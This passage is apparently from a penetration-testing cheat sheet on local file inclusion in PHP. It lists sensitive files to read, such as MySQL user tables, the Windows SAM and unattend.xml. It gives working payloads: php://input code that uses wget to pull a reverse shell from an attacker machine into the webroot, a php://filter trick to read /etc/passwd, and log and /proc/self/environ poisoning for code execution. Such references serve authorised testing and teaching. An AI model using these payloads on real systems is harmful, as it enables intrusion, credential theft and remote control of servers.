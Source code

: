 ```php
/var/lib/mysql/mysql/user.MYD
/var/lib/mysql/mysql/user.MYI
/var/lib/mysql/my.cnf

Windows:
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
/windows/panther/unattended.xml
/windows/panther/unattend/unattended.xml
C:\apache\logs\error.log 
C:\Program Files\Apache Group\Apache\logs\access.log 
C:\Program Files\Apache Group\Apache\logs\error.log 
C:\program files\wamp\apache2\logs 
C:\wamp\apache2\logs 
C:\wamp\logs 
C:\xampp\apache\logs\access.log 
C:\xampp\apache\logs\error.log
C:\inetpub\wwwroot\index.asp 
web.config in every directory you are traversing through
\windows\system32\logfiles\httperr\httperr1.log
\system32\inetsrv\Metabase.xml
.NET framework files - Check in c:\windows\microsoft.net\framework
\documents and settings\administrator\ntuser.ini
\documents and settings\administrator\desktop\desktop.ini
```

_**Following information via highon.coffee**_

**PHP Wrapper php://file**   
Another PHP wrapper, php://input your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.

Example: `http://192.168.183.128/fileincl/example1.php?page=php://input` Post Data payload, try something simple to start with like: Then try and download a reverse shell from your attacking machine using: `<? system('wget http://192.168.183.129/php-reverse-shell.php-O /var/www/shell.php');?>` After uploading execute the reverse shell at `http://192.168.183.129/shell.php`

**PHP Wrapper php://filter**   
Another PHP wrapper, php://filter in this example the output is encoded using base64, so you’ll need to decode the output. `http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/pass`wd

**/proc/self/environ LFI Method**   
If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

**/proc/self/fd/ LFI Method**   
Similar to the previous /proc/self/environ method, it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer. This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc. I’d recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB’s LFI-FD-Check.txt list of likely proc files, you can then monitor the returned page sizes and investigate.
